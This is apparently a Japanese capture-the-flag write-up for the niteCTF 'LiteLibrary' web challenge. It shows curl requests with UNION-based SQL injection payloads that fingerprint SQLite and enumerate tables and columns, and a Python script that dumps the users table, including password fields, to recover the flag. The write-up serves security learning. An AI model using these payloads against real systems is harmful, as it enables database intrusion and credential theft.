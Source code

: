 # LiteLibrary:web:437pts
Testing in prod. No worries are long as we are lighte :)  
[http://litelibrary.web.nitectf.live/](http://litelibrary.web.nitectf.live/)  

# Solution
URLが渡される。  
アクセスすると本を検索できるサービスのようだ。  
![site1.png](site/site1.png)  
サイトが検索リクエスト以外を送信していないため、検索APIに注目する。  
```bash
$ curl "http://litelibrary.web.nitectf.live/api/search?q=_"
[{"title":"Things Fall Apart","author":"Chinua Achebe","pages":"209","imageLink":"images/things-fall-apart.jpg","link":"https://en.wikipedia.org/wiki/Things_Fall_Apart"}]
```
試しに`_`を送信すると先頭の本がヒットした。  
内部でSQLが用いられていそうなので、SQLiを試す。  
```bash
$ curl "http://litelibrary.web.nitectf.live/api/search?q=s'+UNION+SELECT+1,1,1,1,1;+--+s"
[{"title":1,"author":1,"pages":1,"imageLink":1,"link":1}]
```
UNION-based SQLiが実行できる。  
まずはDBMSを特定する。  
```bash
$ curl "http://litelibrary.web.nitectf.live/api/search?q=s'+UNION+SELECT+sqlite_version(),1,1,1,1;+--+s"
[{"title":"3.41.1","author":1,"pages":1,"imageLink":1,"link":1}]
```
SQliteであるようだ。  
テーブル名を取得する。  
```bash
$ curl "http://litelibrary.web.nitectf.live/api/search?q=s'+UNION+SELECT+group_concat(tbl_name),1,1,1,1+FROM+sqlite_master+WHERE+type='table';+--+s"
[{"title":"BOOKS,USERS","author":1,"pages":1,"imageLink":1,"link":1}]
```
`books`と`users`が存在するとわかる。  
`users`が怪しいのでカラム名を取得する。  
```bash
$ curl "http://litelibrary.web.nitectf.live/api/search?q=s'+UNION+SELECT+group_concat(name),1,1,1,1+AS+column_names+FROM+pragma_table_info('users');+--+s"
[{"title":"Blindness","author":"José Saramago","pages":"352","imageLink":"images/blindness.jpg","link":"https://en.wikipedia.org/wiki/Blindness_(novel)"}]
$ curl "http://litelibrary.web.nitectf.live/api/search?q=s'+UNION+SELECT+1,group_concat(name),1,1,1+AS+column_names+FROM+pragma_table_info('users');+--+s"
[{"title":1,"author":"liteId,liteUsername,gender,liteNick,litePass,dateCreated","pages":1,"imageLink":1,"link":1}]
```
titleのチェックがあるのか、文字列が長いとBlindnessになってしまう。  
authorで取得すればよい。  
カラム名が分かったので以下のdump.pyで`users`を取得してやる(`dateCreated`は不要だと予測)。  
```python
import requests

for i in range(0xff):
    res = requests.get(
        f"http://litelibrary.web.nitectf.live/api/search?q=s' UNION SELECT liteid,liteusername,gender,litenick,litepass FROM users LIMIT 1 OFFSET {i}; -- s"
    )
    print(res.text)
```
実行する。  
```bash
$ python dump.py
[{"title":"002cd316-affa-4455-b482-7a4d60e79eb4","author":"f043manh1nt0n","pages":"male","imageLink":"winters781241","link":"0ifnfgkijagmi"}]
~~~
[{"title":"28582015-49f6-43f8-9aad-a9e5d4a5687f","author":"madmaxfuryyyyy2344","pages":"male","imageLink":"nite{t00_l1t3_huh_50m30n3_g37_an71_g2av17y_0v3r_h3r3}","link":"yeehaaw1amMadx"}]
[{"title":"291c0336-0f3d-49f0-8edb-129b68b98863","author":"40ch31le60nza135","pages":"female","imageLink":"beverly7070264","link":"6dd3a4f211bfca"}]
^C
```
imageLinkにflagが含まれていた。  

## nite{t00_l1t3_huh_50m30n3_g37_an71_g2av17y_0v3r_h3r3}